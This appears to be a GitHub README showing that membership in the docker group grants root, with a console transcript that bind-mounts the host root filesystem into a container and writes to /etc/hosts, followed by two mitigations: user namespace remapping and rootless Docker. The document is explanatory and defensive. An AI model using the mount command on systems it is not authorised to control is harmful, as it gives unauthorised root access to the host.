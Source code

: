 # dockerPrivilegeEscalation

It shows how to get root privileges if you may run docker containers (participating in docker group)

## Backstory
By default docker is installed on OS without special configuring. If you would like to run docker containers without sudo you should be in docker group.

## Privilege Escalation
So participating in docker group allows to **get root privileges**.  
See console commands below:  
```console
[coder@coder-srv ~]$ id
uid=1000(coder) gid=1000(coder) groups=1000(coder),994(docker)
[coder@coder-srv ~]$ echo 2 >> /etc/hosts
-bash: /etc/hosts: Permission denied
[coder@coder-srv ~]$ tail -n 2 /etc/hosts
::1         localhost localhost.localdomain localhost6 localhost6.localdomain6
127.0.0.1   coder-srv
[coder@coder-srv ~]$ docker run --mount type=bind,source=/,target=/host -it ubuntu bash
root@23071637cb99:/# echo 2 >> /host/etc/hosts
root@23071637cb99:/# exit
exit
[coder@coder-srv ~]$ tail -n 2 /etc/hosts
127.0.0.1   coder-srv
2
```

## Solutions
There are two ways:

1. [Isolate containers with a user namespace](https://docs.docker.com/engine/security/userns-remap/)
2. [Run the Docker daemon as a non-root user](https://docs.docker.com/engine/security/rootless/)
